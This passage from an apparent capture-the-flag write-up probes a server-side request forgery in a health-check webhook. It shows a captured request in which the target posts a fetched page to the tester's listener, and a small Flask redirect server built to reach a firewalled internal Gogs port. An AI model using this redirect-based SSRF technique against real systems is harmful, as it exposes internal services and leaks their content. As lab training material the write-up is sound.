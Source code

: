 To see what it looks like when the GET is successful, I’ll use Python on 80, and still `nc` on 8000, and submit. The POST looks like:

```

POST / HTTP/1.1
Host: 10.10.14.6:8000
Accept: */*
Content-type: application/json
Content-Length: 877

{"webhookUrl":"http:\/\/10.10.14.6:8000","monitoredUrl":"http:\/\/10.10.14.6","health":"up","body":"<!DOCTYPE HTML PUBLIC \"-\/\/W3C\/\/DTD HTML 4.01\/\/EN\" \"http:\/\/www.w3.org\/TR\/html4\/strict.dtd\">\n<html>\n<head>\n<meta http-equiv=\"Content-Type\" content=\"text\/html; charset=utf-8\">\n<title>Directory listing for \/<\/title>\n<\/head>\n<body>\n<h1>Directory listing for \/<\/h1>\n<hr>\n<ul>\n<li><a href=\"assets\/\">assets\/<\/a><\/li>\n<li><a href=\"ferox-http_10_10_11_176-1673037912.state\">ferox-http_10_10_11_176-1673037912.state<\/a><\/li>\n<li><a href=\"health.md\">health.md<\/a><\/li>\n<li><a href=\"scans\/\">scans\/<\/a><\/li>\n<\/ul>\n<hr>\n<\/body>\n<\/html>\n","message":"HTTP\/1.0 200 OK","headers":{"Server":"SimpleHTTP\/0.6 Python\/3.8.10","Date":"Fri, 06 Jan 2023 20:58:38 GMT","Content-type":"text\/html; charset=utf-8","Content-Length":"521"}}

```

It gives the full content of the page!

### Access Gogs

#### Test Redirect

I’d like to see what’s on that port 3000 that’s filtered when I run `nmap`. The filtering implies that the port is open, just blocked by a firewall. But I can’t give the site a URL that has it’s own IP in it.

I’ll see if the client making these web requests follows redirects. I’ll write a short Flask web server:

```

from flask import Flask, redirect, request

app = Flask(__name__)

@app.route("/redirect", methods=["GET"])
def redir():
    return redirect('http://10.10.14.6/test')

@app.route("/test", methods=["GET"])
def test():
    return ("Hello!", 200)

@app.route("/hook", methods=["POST"])
def hook():
    print("Got Hook!")
    print(request.json)
    return ('', 200)

if __name__ == "__main__":
    app.run(debug=True, host="0.0.0.0", port=80)

```
